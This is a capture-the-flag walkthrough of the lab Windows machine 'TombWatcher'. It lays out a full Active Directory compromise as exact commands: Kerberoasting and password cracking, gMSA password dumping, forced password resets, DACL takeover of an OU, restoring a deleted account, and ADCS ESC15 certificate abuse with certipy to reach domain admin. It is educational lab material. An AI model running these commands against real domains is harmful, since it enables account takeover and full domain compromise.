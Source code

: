 # TombWatcher

```
Difficulty: Medium
Operating System: Windows
Hints: Active Directory, Kerberoasting, ACL Abuse, GMSA, DACL Abuse, Cert-based Escalation

```

## Initial Enumeration
Running nmap scan (TCP) on the target shows the following results:

```
nmap TombWatcher.htb -sV -A
PORT      STATE SERVICE         VERSION
53/tcp    open  domain          Simple DNS Plus
80/tcp    open  http            Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec    Microsoft Windows Kerberos
135/tcp   open  msrpc           Microsoft Windows RPC
139/tcp   open  netbios-ssn     Microsoft Windows netbios-ssn
389/tcp   open  ldap            Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http      Microsoft Windows RPC over HTTP
636/tcp   open  ssl/ldap        Microsoft Windows Active Directory LDAP over TLS
3268/tcp  open  ldap            Microsoft Windows AD Global Catalog
3269/tcp  open  ssl/ldap        Microsoft Windows AD GC over TLS
5985/tcp  open  http            Microsoft HTTPAPI httpd 2.0 (WinRM)
Domain: tombwatcher.htb
Hostname: DC01.tombwatcher.htb

```

Add to /etc/hosts:
```
10.10.11.72  DC01.tombwatcher.htb TombWatcher.htb
```
Foothold
The initial credentials provided are: henry : H3nry_987TGV!

User
Method 1 - Kerberoasting with ACL Abuse (from henry to alfred)
Recon as Henry: Use bloodhound-python to gather Active Directory information.

Bash
```
bloodhound-python -u henry -p 'H3nry_987TGV!' -d tombwatcher.htb -ns 10.10.11.72 -c All --zip
```
This reveals that the Alfred user has WriteSPN rights, which is exploitable via Kerberoasting.

Kerberoasting: Use targetedKerberoast.py to add a Service Principal Name (SPN) to Alfred and dump the Kerberos TGS hash.

Bash
```
python targetedKerberoast.py -v -d tombwatcher.htb -u henry -p 'H3nry_987TGV!'

```
Crack Hash: Crack the dumped hash using John the Ripper with a wordlist.

Bash

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
The password for Alfred is basketball.

```
Method 2 - GMSA Password Dump (from alfred to ansible_dev$, then SAM and john)
Recon as Alfred: Re-run bloodhound-python with Alfred's newly acquired credentials.

Bash

```
bloodhound-python -u alfred -p 'basketball' -d tombwatcher.htb -ns 10.10.11.72 -c All --zip

```
No immediate Domain Admin path is found, but it's identified that the Infrastructure group is modifiable.

Infrastructure Group Escalation: Add Alfred to the Infrastructure group using bloodyAD.

Bash

```
bloodyAD --host '10.10.11.72' -d tombwatcher.htb -u alfred -p 'basketball' add groupMember INFRASTRUCTURE alfred
```

GMSA Password Dump: Use gMSADumper.py to find and dump Group Managed Service Account (GMSA) blobs.

Bash
```
python gMSADumper.py -u alfred -p basketball -d tombwatcher.htb
```
This shows that the Infrastructure group can read the password for ansible_dev$.

Change Passwords via GMSA: Utilize bloodyAD to change the passwords for the SAM and john accounts by leveraging the ansible_dev$ GMSA account's dumped credentials.

Bash

```
bloodyAD --host '10.10.11.72' -d tombwatcher.htb -u 'ansible_dev$' -p ':4b21348ca4ay…' set password SAM 'jhvc@4569@'
```
```
bloodyAD --host '10.10.11.72' -d tombwatcher.htb -u SAM -p 'jhvc@4569@' set password john 'jhvc@4569@'

```
This grants access to the john account, and user.txt can be retrieved.

## Root
Once we log in as john, following our standard approach, we can run WinPEAS looking for possible privilege escalation vectors. After we run WinPEAS, we can notice a path for Active Directory Certificate Services (ADCS) abuse.

DACL Abuse for OU Takeover (from john to cert_admin)
DACL Abuse: Grant john FullControl over the OU=ADCS,DC=TOMBWATCHER,DC=HTB using impacket-dacledit.

Bash
```
impacket-dacledit \
  -action write \
  -rights FullControl \
  -inheritance \
  -principal john \
  -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' \
  tombwatcher.htb/SAM:'jhvc@4569@'
```

This gives john control over the ADCS Organizational Unit.

Restore & Change cert_admin Password: Inside an Evil-WinRM session as john, identify and restore the deleted cert_admin account, enable it, and reset its password.

PowerShell
```
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects
Restore-ADObject -Identity 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
Enable-ADAccount -Identity cert_admin
Set-ADAccountPassword -Identity cert_admin -Reset -NewPassword (ConvertTo-SecureString "jhvc@4569@" -AsPlainText -Force)
```

Then, confirm the password change for cert_admin using bloodyAD.

Bash

```

bloodyAD --host '10.10.11.72' -d tombwatcher.htb \
  -u john -p 'jhvc@4569@' set password cert_admin 'jhvc@4569@'

```
The cert_admin account is now controlled.

Certificate-Based Privilege Escalation (from cert_admin to Administrator)
Cert Enumeration: Use certipy to enumerate the Certificate Authority (CA) and available certificate templates, looking for vulnerabilities.

Bash
```
certipy find -u cert_admin -p "jhvc@4569@" -dc-ip 10.10.11.72 -vulnerable
```
This reveals the WebServer template with "Enrollee supplies subject: True" and an "ESC15 vulnerability detected".

Plan A (ESC15 / ESC1): Request a certificate with Client Authentication and an Administrator UPN using certipy.

Bash
```
certipy req \
  -u 'cert_admin@tombwatcher.htb' -p 'jhvc@4569@' \
  -dc-ip '10.10.11.72' \
  -ca 'tombwatcher-CA-1' \
  -template 'WebServer' \
  -upn 'administrator@tombwatcher.htb' \
  -application-policies 'Client Authentication'
```
Then, use the generated PFX file to authenticate as the Administrator and obtain a shell.

Bash
```
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.72 -ldap-shell
```
From here, the Administrator's password can be changed, leading to full Domain Administrator access.

Plan B (Certificate Request Agent Attack - Alternative): If Plan A is not feasible, obtain an Agent certificate.

Bash
```
certipy req \
  -u 'cert_admin@tombwatcher.htb' -p 'jhvc@4569@' \
  -dc-ip '10.10.11.72' -ca 'tombwatcher-CA-1' \
  -template 'WebServer' \
  -application-policies 'Certificate Request Agent'
```
Then, impersonate the Administrator by requesting a user certificate on their behalf.

Bash
```
certipy req \
  -u 'cert_admin@tombwatcher.htb' -p 'jhvc@4569@' \
  -dc-ip '10.10.11.72' -ca 'tombwatcher-CA-1' \
  -template 'User' \
  -pfx cert_admin.pfx \
  -on-behalf-of 'tombwatcher\Administrator'
```
Finally, authenticate using the on-behalf-of certificate to retrieve the Administrator's TGT, ccache, or NT hash, granting Domain Administrator privileges.

Bash
```
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.72
```

## Summary:

🏁 Summary of Attack Chain

```

| Step | User / Access     | Technique Used                   | Result                                   |
| :--- | :---------------- | :------------------------------- | :--------------------------------------- |
| 1    | henry             | BloodHound                       | Found SPN write rights on Alfred         |
| 2    | henry → Alfred    | Kerberoast (SPN abuse)           | Cracked Alfred’s password                |
| 3    | alfred            | BloodHound                       | Found Infrastructure group modifiable    |
| 4    | alfred            | bloodyAD                         | Added Alfred to Infrastructure           |
| 5    | alfred            | gMSADumper                       | Dumped GMSA blob                         |
| 6    | ansible_dev$      | GMSA Abuse & bloodyAD            | Changed SAM, john, user.txt              |
| 7    | john              | impacket-dacledit                | Gained FullControl on ADCS OU            |
| 8    | john              | Restore ADObject & bloodyAD      | Took over cert_admin account             |
| 9    | cert_admin        | certipy                          | Enumerated CA, WebServer template (ESC15)|
| 10   | cert_admin → DA   | cert-based escalation (ESC15/ESC1/B) | Full domain admin access (Administrator) |

```